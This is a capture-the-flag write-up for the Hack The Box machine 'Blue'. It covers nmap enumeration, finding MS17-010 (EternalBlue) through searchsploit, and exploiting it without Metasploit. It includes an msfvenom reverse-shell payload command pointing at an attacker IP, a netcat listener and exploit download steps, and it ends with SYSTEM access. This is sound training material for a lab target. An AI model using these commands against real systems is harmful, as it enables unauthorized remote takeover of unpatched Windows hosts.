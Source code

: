 # Blue without Metasploit

## Enumeration

### Run nmap scan:

#### **`nmap -T4 -A -p- 10.10.10.40`**

* -T4 flag is to speed the scan up a bit. T3 is the default if this is not specified.
* -A flag will enable Operating system, version detection, script scanning, and traceroute.
* -p- flag will scan for all 65,535 ports. By default, if this is not specified, nmap will scan the top 1000 ports.

![Part of nmap scan results](../.gitbook/assets/blue-nmap1.png)

![Rest of nmap scan results](../.gitbook/assets/blue-nmap2.png)

#### Dissecting the Results:

* **Port 139:** Running Microsoft Windows netbios-ssn.
* **Port 445:** Running microsoft-ds.
* **Ports 135, 49152, 49153, 49154, 49155, 49156, and 49157:** Running msrpc.
* **Host script results:** guest logon appears possible for SMB.

This is looking similar to Legacy, and since we see SMB wide open, we should run the following command:

```text
nmap -v -script smb-vuln* 10.10.10.40
```

![Results of nmap smb-vuln\* scripts ran](../.gitbook/assets/blue-nmap-smb-vuln-script.png)

We see this target is vulnerable to MS17-010, or EternalBlue. After exploiting this vulnerability, we will automatically be NT Authority System and have the highest level of privileges.

We search for an exploit for MS17-010 by using searchsploit as follows:

```text
searchsploit ms17-010
```

![](../.gitbook/assets/searchsploit-results-42315-is-more-stable-and-tested.png)

We know the box is running Windows 7 and we are not using Metasploit, so we are left with options 42031.py and 42315.py. We can inspect either one by using `searchsploit -x <script>.py` where &lt;script&gt; is replaced with the name of the script. 

## Exploitation

We notice 42315.py most likely won't crash the target and is far more simpler to use. Let's clone the exploit into the working directory with:

```text
searchsploit -m 42315
```

In the source code, we discover the following:

* Download mysmb.py since the exploit will import it. Source code provides a link to download it and it must be renamed to mysmb.py. 
* Use msfvenom to generate a reverse shell payload.
* Modify exploit to include credentials as well as the reverse shell payload.

We can use wget with the link provided in the exploits source code, which would look like this:

```text
wget https://raw.githubusercontent.com/offensive-security/exploitdb-bin-sploits/master/bin-sploits/42315.py
```

 Simply rename it to mysmb.py and we can create our payload with:

```text
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.95 LPORT=7777 -f exe > eternal.exe
```

* **-p flag:** Payload type.
* **LHOST:** Listening IP address of the attacking machine.
* **LPORT:** Listening port of the attacking machine.
* **-f flag:** File format of payload.
* **-o flag:** Where to save the file as well as name the file.

This command will create our payload in an executable file named eternal.exe and it will create a reverse shell. Take note of the directory where the payload is located, as it will be needed when modifying the exploit as seen here:

![Before modifying](../.gitbook/assets/before-modifying-exploit.png)

![After modifying](../.gitbook/assets/after-modifying-exploit.png)

Finally, we need to edit the "USERNAME" variable at the top of the exploit to guest:

![](../.gitbook/assets/adding-guest-as-username.png)

It's time to set up a netcat listener:

```text
nc -nlvp 7777
```

Run the exploit:

![](../.gitbook/assets/running-exploit.png)

![](../.gitbook/assets/got-shell-and-nt-authority-system.png)

We've successfully attained a shell with system privileges.

Grab user.txt and root.txt:

![](../.gitbook/assets/user-and-root-flags.png)

## Lessons Learned

Always ensure your systems are patched and up to date. If the MS17-010 security update had been applied, we would've needed to find a different method to exploit this machine.

